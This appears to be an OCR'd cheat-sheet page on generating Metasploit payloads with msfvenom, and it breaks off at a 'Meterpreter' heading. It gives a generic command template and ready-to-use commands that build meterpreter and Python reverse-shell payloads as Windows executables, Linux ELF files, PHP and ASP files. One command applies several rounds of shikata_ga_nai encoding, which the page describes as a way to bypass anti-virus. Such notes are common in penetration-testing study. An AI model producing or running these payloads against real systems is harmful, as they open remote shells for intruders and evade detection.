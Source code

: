 <br>

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders'
to get a list of encoders.

```
$ msfvenom -p [Payload] -e [Encoder] -f [FormatType] -i [EncodeInterations] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort]
```
<br>

Example:
<br>

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```
$ msfvenom -p windows/meterpreter/ reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe LHOST=10.1.1.1 LPORT=4444 > msf.exe
```

<br>

Other Payloads:

> Linux Executable and Linkable Format (elf)

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

> Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

> PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

> ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

> Python

```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```


<br>

<h3>Metasploit Meterpreter</h3>

Base Commands: 
